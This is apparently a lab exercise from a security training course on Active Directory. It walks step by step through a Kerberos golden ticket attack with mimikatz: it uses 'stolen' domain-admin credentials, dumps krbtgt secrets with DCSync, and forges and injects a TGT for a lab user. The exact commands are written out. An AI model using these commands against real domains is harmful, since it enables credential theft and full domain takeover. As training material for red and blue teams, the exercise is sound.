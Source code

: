 ===

## Exercise 4 - Perform Golden ticket attacks

Hello <font style="color:red;">**Miss Red**</font>. In this exercise you are going to mess with <font style="color:blue;">**Mister Blue**</font> by crafting a TGT for the user and inject it into your own session.
For this you are going to use the domain admin credentials of Katrina that you've previously stolen.


1. [] Log on to **@lab.VirtualMachine(SRV01).SelectLink**. Use the following credentials:
    |||
    |:--------|:--------|
    | Username | `CONTOSO\katrina.mendoza.adm` |
    | Password | Please type the password |
    
1. [] Right click on the Start menu ![image](.\IMG\2022menu.png) and click on **Windows PowerShell (Admin)**.

1. [] In the **Administrator: Windows PowerShell** window run `cmd.exe` and then `title Admin console`. You should see the following:
![image](.\IMG\cmdtitle.png)

1. [] In this renamed console, run the following `cd \Tools\mimikatz\mimikatz` (yes that's twice mimikatz, just because) and then `mimikatz.exe`.

1. [] Run the following to extract the KrbTgt secrets `lsadump::dcsync /user:krbtgt` and explorer the output.

1. [] Now run the following to craft your TGT for <font style="color:blue;">**Mister Blue**</font> : `kerberos::golden /user:blue /domain:contoso.com /sid:S-1-5-21-1335734252-711511382-1358492552 /endin:5241600 /aes256:5d8029df60602bf0820ed46831e6ca4eb2a9767ed9fb4f35a741e1ec8bdb2605 /ptt`

    - **/sid** is the domain sid
    - **/endin** the the validity time for the TGT (normally it is 600 minutes)
    - **/aes256** is the AES256 hash of the KrbTgt account
    - **/ptt** is the Pass The Ticket parameter which means you will inject the crafted ticket in memory, without having to run another command

1. [] You can exit **mimikatz** by running `exit` and then run `klist`. Epxlore the output of the **klist** command.

    📝 How long is your TGT for blue valid for? 
